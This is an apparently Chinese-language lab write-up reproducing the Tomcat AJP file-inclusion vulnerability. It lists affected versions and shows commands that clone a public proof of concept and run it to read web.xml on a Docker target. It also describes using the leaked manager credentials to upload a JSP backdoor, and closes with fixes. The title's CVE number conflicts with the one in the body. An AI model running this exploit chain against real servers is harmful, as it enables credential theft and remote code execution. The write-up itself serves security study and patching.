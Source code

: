 # 漏洞复现——Tomcat AJP文件包含漏洞CVE-2020-1983

# 一、Tomcat AJP文件包含漏洞概述

1. 该漏洞由长亭科技安全研究员发现，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

# 二、漏洞原理

1. Tomcat 配置了两个Connecto，它们分别是 HTTP 和 AJP ：HTTP默认端口为8080，处理http请求，而AJP默认端口8009，用于处理 AJP 协议的请求，而AJP比http更加优化，多用于反向、集群等，漏洞由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件以及可以包含任意文件，如果有某上传点，上传图片马等等，即可以获取shell

# 三、影响版本

1. Apache Tomcat 6
2. Apache Tomcat 7 < 7.0.100
3. Apache Tomcat 8 < 8.5.51
4. Apache Tomcat 9 < 9.0.31

# 四、漏洞复现

1. 将POC拉取到攻击机，POC地址：https://github.com/hypn0s/AJPy.git

   ``` shell
   git clone https://github.com/hypn0s/AJPy.git
   ```

2. 进入靶机~/vulhub/tomcat/CVE-2020-1938目录启动环境

   ``` shell
   sudo docker-compose up -d
   ```

3. 使用poc查看Tomcat靶机的tomcat版本信息

   ``` shell
   python3 tomcat.py version 192.168.50.198
   ```

4. 使用poc读取tomcat配置文件web.xml

   ``` shell
   python3 tomcat.py read_file --webapp=manager /WEB-INF/web.xml 192.168.50.198
   ```

   ![1.img](img/TomcatAJP/Image1.png)

5. 成功读取到配置信息，发现tomcat manager-gui的账号和密码

   ![2.img](img/TomcatAJP/Image2.png)

6. 登录到tomcat manager后，配合war包上传jsp后门文件可执行任意代码、getshell

# 五、修复建议

1. 升级最新版Tomcat

2. 关闭AJP Connector